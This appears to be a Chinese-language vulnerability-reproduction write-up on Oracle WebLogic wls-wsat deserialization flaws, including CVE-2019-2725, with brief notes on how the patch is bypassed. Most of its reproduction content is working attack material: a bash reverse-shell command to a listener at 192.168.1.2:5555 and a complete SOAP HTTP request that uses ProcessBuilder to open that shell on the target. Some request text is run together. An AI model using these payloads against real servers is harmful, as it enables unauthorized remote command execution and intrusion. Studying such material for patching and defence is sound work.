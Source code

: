 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2DDdgmVBbibHD8ibfG9Z4zJRxUdPIA5EcnaPHIXicjjC7FpPayTo8kLMFw/640?wx_fmt=png)

访问 http://192.168.1.10:7001/wls-wsat/CoordinatorPortType 如下图所示则存在漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2rPtbzCUo0xwhRHkE18Tq1iaFTibibJXicfpyIXtW8u4B7YseB3XwXibqfWg/640?wx_fmt=png)

bp 在当前页面抓包后使用 bash 命令反弹 shell，nc 开启端口即可

```
/bin/bash-cbash -i >& /dev/tcp/192.168.1.2/5555 0>&1
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2MzZdIQ4ibsIpAISFqN0ib9GlLTpM5ichLdMNKE8pzaGNZEm2V3W8nicpNQ/640?wx_fmt=png)

CVE-2019-2725
=============

wls-wsat 反序列化漏洞 (CVE-2019-2725)。攻击者可以发送精心构造的恶意 HTTP 请求，在未授权的情况下远程执行命令。

漏洞原理
----

漏洞触发点：bea_wls9_async_response.war、wsat.war

影响版本：Oracle WebLogic Server 10.* 、Oracle WebLogic Server 12.1.3

通过 CVE-2019-2725 补丁分析发现，较上一个漏洞 CVE-2017-10271 补丁而言，官方新增了对 class 元素的过滤，并且 array 元素的 length 属性转换为整形后不得大于 10000：

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2uTebw5Tiakx14oodgaWhJuKBnbnAW54iboVTRiatuyCbdibC0sic6x3bibicA/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2mnLphP9boL9nLLot3p8oQChvb2tkyuF7Wa2EWRVsOovib4iaUUrzM9bg/640?wx_fmt=jpeg)

本次漏洞利用某个元素成功替换了补丁所限制的元素，再次绕过了补丁黑名单策略，最终造成远程命令执行。

漏洞复现
----

访问以下目录中的一种，如下图所示则漏洞

```
/_async/AsyncResponseService/_async/AsyncResponseServiceJms/_async/AsyncResponseServiceHttps/_async/AsyncResponseServiceSoap12/_async/AsyncResponseServiceSoap12Jms/_async/AsyncResponseServiceSoap12Https
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2ibZr5ygsuL9U8GfTPnnsXBHs8T6wu4RV5MjQUGXOnibO1dzjIUJMcTPg/640?wx_fmt=png)

bp 在当前页面抓包，使用 bash 命令反弹 shell，nc 开启端口监听即可

```
GET /_async/AsyncResponseService HTTP/1.1Host: 192.168.1.10:7001User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeUpgrade-Insecure-Requests: 1Cache-Control: max-age=0Content-Length: 782Accept-Encoding: gzip, deflateSOAPAction:Accept: */*User-Agent: Apache-HttpClient/4.1.1 (java 1.5)Connection: keep-alivecontent-type: text/xml<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"xmlns:asy="http://www.bea.com/async/AsyncResponseService"><soapenv:Header><wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>bash -i >& /dev/tcp/192.168.1.2/5555 0>&1</string></void></array><void method="start"/></void></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```
